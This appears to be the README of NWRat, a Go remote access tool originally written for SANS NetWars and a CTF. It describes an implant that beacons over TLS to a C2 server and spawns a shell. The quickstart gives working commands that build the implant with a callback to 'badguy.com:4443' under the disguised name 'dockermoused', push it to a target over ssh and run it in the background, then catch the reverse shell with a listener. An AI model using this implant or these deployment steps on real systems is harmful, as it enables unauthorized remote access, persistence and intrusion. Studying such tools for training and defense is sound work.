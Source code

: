 NWRat
=====
Barebones RAT which provides a shell over TLS.  Originally written several
years ago for SANS' NetWars, the source was lost and re-written for quite a
long CTF which was part of a job interview.

As an implant it's a single binary which tries to make a TLS connection to the
C2 server at a set interval.  If a connection is established, a shell is
spawned and its stdio hooked up the TLS connection.  Further connection
attempts are still made when a shell is running to enable multiple shells on
target (or for if you forget `-c` when you ping something).

As a C2 server it listens for a connection from the implant, does a TLS
handshake and proxies stdio to the connection.  The listening socket is closed
when a connection is accepted to enable catching multiple callbacks.

Features:
- Single binary for both implant and server
- Shell over TLS
- Constant beacons
- No fussing about with someone else's post-exploitation code
- Compile-time implant configuration
- Cross-platform (though, only if `/bin/sh` exists on the platform)
- Encrypted on the wire
- Easy to set up and use
- Documentation which assumes some familiarity with [Go](https://golang.org)

For legal use only.

Quickstart
----------
```sh
# Get the source
go get github.com/magisterquis/nwrat
# Build the C2 server for the local platform
go build github.com/magisterquis/nwrat
# Build an implant for a different platform, setting the callback address
GOOS=linux go build -o dockermoused -ldflags="-X main.callbackAddr=badguy.com:4443" github.com/magisterquis/nwrat
# Put the implant on target it and run it
ssh target 'cat >/tmp/dockermoused && chmod 0700 /tmp/dockermoused && /tmp/dockermoused &' <./dockermoused
# Catch a callback
./nwrat -listen localhost:4443 -cert ./badguy.com.crt -key ./badguy.com.key
```

Implant
-------
The implant is configured using Go linker directives.  There are three options:

Option                | Default           | Description
----------------------|-------------------|------------
main.callbackInterval | `1m`              | Callback interval, in Go's parseable duration [syntax](https://golang.org/pkg/time/#ParseDuration)
main.callbackAddr     | `example.com:443` | Callback address and port
main.implantDebug     | _unset_           | Set to any string to have the implant print debugging messages

As an example, to have the implant call back to `kittens.com:4433` every three
seconds and print debugging output, it would be built something like

```sh
go build -ldflags="-X main.callbackInterval=3s -X main.callbackAddr=kittens.com:4433 -X main.implantDebug=sure" github.com/magisterquis/nwrat
```

Editing the `var` block at the top also works.

Running the binary with no arguments causes it to function as the implant (as
opposed to the C2 server).

C2 Server
---------
When used with `-listen` the binary catches a callback.  A listen address and TLS
certificate and key corresponding to the domain the implant expects need to be
supplied via command-line options, similar to

```sh
./nwrat -listen 0.0.0.0:4443 -cert ./badguy.com.crt -key ./badguy.com.key
```

It's not a bad idea to wrap `nwrat` in [rlwrap](https://github.com/hanslub42/rlwrap)
or something similar, as there'll be no TTY or readline library.

When one side or the other disconnects, a message similar to
```
2020/07/22 00:28:25 Sent 206 bytes to implant
```
will be logged.
